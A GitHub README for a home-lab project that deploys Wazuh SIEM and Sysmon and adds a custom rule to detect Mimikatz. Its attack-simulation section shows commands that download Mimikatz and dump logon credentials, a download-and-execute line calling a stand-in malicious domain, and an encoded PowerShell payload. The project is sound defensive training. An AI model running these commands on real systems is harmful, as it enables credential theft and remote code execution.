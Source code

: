 # Security Monitoring & Threat Detection with Wazuh

## Overview

This project demonstrates how to set up a security monitoring and threat detection system using Wazuh SIEM. The focus is on detecting malicious activity, including Mimikatz execution, and analyzing security events in a cloud-based lab. This setup provides a hands-on approach to understanding real-world security threats and how to mitigate them through log monitoring and rule-based detection.

## Technologies Used

- **Wazuh SIEM** (Security Information and Event Management) – Centralized log collection and analysis.
- **Sysmon** (System Monitoring for Windows event logging) – Enhances logging capabilities for deeper event visibility.
- **PowerShell** (Attack simulations and scripting) – Used for executing controlled attacks.
- **Mimikatz** (Credential dumping tool for testing detection capabilities) – Simulates real-world credential theft attacks.

---

## Deployment Steps

### 1. Set Up Wazuh SIEM on Ubuntu

Wazuh SIEM was chosen for its open-source capabilities and strong log management features. Setting it up on Ubuntu ensures stability and security for handling log data.

#### Update System and Install Dependencies

Before installing Wazuh, it is crucial to ensure that the system is up-to-date and has necessary dependencies installed.

```bash
sudo apt update && sudo apt upgrade -y
sudo apt install curl unzip -y
```

#### Install Wazuh Manager

The Wazuh Manager is the core component that processes security alerts from connected agents. The installation script automates the process.

```bash
curl -sO https://packages.wazuh.com/4.x/wazuh-install.sh
sudo bash wazuh-install.sh --manager
```

#### Start Wazuh Services

After installation, Wazuh services must be started and enabled to ensure they run on boot.

```bash
sudo systemctl enable wazuh-manager
sudo systemctl start wazuh-manager
```

### 2. Install and Configure Wazuh Agent on Windows (Sysmon Enabled)

The Wazuh Agent collects logs from Windows machines and sends them to the Wazuh Manager. Sysmon enhances the visibility of security-related events.

#### Install Sysmon

Sysmon is a Windows utility that provides detailed logging of process activity, network connections, and more. It is essential for detecting advanced threats.

```powershell
Invoke-WebRequest -Uri "https://download.sysinternals.com/files/Sysmon.zip" -OutFile "Sysmon.zip"
Expand-Archive .\Sysmon.zip -DestinationPath .\Sysmon
cd .\Sysmon
.\sysmon.exe -accepteula -i sysmon.xml
```

#### Install Wazuh Agent

The Wazuh Agent installation connects the Windows machine to the Wazuh SIEM and allows it to send logs for analysis.

```powershell
Invoke-WebRequest -Uri "https://packages.wazuh.com/4.x/windows/wazuh-agent-4.x.msi" -OutFile "wazuh-agent.msi"
Start-Process msiexec.exe -ArgumentList "/i wazuh-agent.msi /qn WAZUH_MANAGER='YOUR_WAZUH_SERVER_IP'" -Wait
Start-Service WazuhSvc
```

### 3. Configure Custom Wazuh Rules for Mimikatz Detection

To effectively detect attacks, custom rules were created within Wazuh. The rule below specifically detects the execution of Mimikatz, a common credential theft tool.

Create a new rule file:

```bash
sudo nano /var/ossec/rules/mimikatz_rules.xml
```

Add the following custom rule:

```xml
<group name="mimikatz_detection, attack_tool">
  <rule id="100001" level="12">
    <decoded_as>json</decoded_as>
    <field name="win.eventdata.Image">.*mimikatz.exe.*</field>
    <description>Mimikatz execution detected</description>
  </rule>
</group>
```

Restart Wazuh Manager to apply rules:

```bash
sudo systemctl restart wazuh-manager
```

### 4. Simulate Attacks with PowerShell

Simulating attacks is necessary to test whether security monitoring is effective. These tests ensure that the detection rules work as expected.

#### Simulate Mimikatz Execution

Mimikatz is used to dump credentials from memory. Running it helps confirm whether the Wazuh rule successfully detects its execution.

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
Invoke-WebRequest -Uri "https://github.com/gentilkiwi/mimikatz/releases/latest/download/mimikatz_trunk.zip" -OutFile "mimikatz.zip"
Expand-Archive .\mimikatz.zip -DestinationPath .\mimikatz
cd .\mimikatz
.\mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords"
```

#### Simulate Other Suspicious Activities

Other attack methods were tested to evaluate how well Wazuh and Sysmon detect malicious PowerShell activity.

```powershell
# Simulate PowerShell Download Attack
IEX (New-Object Net.WebClient).DownloadString('http://malicious-domain.com/malware.ps1')

# Simulate Command Execution via Encoded Payload
powershell -EncodedCommand JABXAG8AbgB0AC4ARQB4AGUA…
```

These attack simulations help validate the security monitoring setup and improve detection capabilities.

---

## Conclusion

This project successfully demonstrates how to:

- Deploy Wazuh SIEM for security monitoring.
- Enhance endpoint visibility using Sysmon.
- Detect malicious activity, including Mimikatz execution.
- Simulate attacks using PowerShell to test detection rules.

By leveraging Wazuh SIEM and Sysmon, security teams can enhance their ability to detect and respond to potential threats in a monitored environment. These techniques are fundamental for security operations centers (SOC) and threat hunting teams aiming to improve detection and response capabilities.

